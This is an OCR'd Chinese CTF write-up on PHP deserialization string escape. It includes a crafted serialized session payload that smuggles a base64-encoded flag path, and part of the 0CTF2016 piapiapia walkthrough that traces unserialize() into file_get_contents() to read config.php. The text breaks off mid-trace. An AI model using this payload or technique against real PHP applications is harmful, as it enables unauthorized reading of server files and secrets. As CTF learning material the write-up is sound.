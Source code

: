 so:

```php
    $_SESSION['imgphpflag'] = ';s:3:"111";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}';

    if(!$_GET['img_path']){
        $_SESSION['img'] = base64_encode('guest_img.png');
    }else{
        $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
    }
    //经过if后_SESSION会添加一个img字段
    //其序列化结果是：s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";
    //经过过滤函数后序列化结果变成a:2:{s:10:"img";s:50:";s:3:"111";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}在反序列化的时候会发生截断，也就是字符串逃逸，if语句中添加的那部分就被截断了
```

本地序列化结果: `a:2:{s:10:"img";s:50:";s:3:"111";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

#### 0CTF2016 piapiapia(备份文件泄露+反序列化字符串逃逸)

1. dirsearch 扫描，发现`www.zip`,发现源码
2. 首先看看config.php，里面有个flag变量
   
   ```php
   $config['hostname'] = '127.0.0.1';
   $config['username'] = 'root';
   $config['password'] = '';
   $config['database'] = '';
   $flag = '';
   ```

   然后是profile.php

   ```php
   $profile = unserialize($profile);
   $phone = $profile['phone'];
   $email = $profile['email'];
   $nickname = $profile['nickname'];
   $photo = base64_encode(file_get_contents($profile['photo']));
   ```

   发现一个敏感函数
   `file_get_contents()`(将一个文件读取到一个字符串中)
   还对`$profile`变量进行了反序列化
   这里我们就有了一个思路，可以使用`file_get_contents`函数读取`config.php`呢。这时候我们再找找`$profile`变量是什么传递过来的

   ```php
   $profile=$user->show_profile($username);
   ```

   继续跟踪`show_profile`方法，因为`profile.php`包含了`class.php`，所以我们去`class.php`寻找

   ```php
      public function show_profile($username) {
         $username = parent::filter($username);
         $where = "username = '$username'";
         $object = parent::select($this->table, $where);
         return $object->profile;
      }
   ```
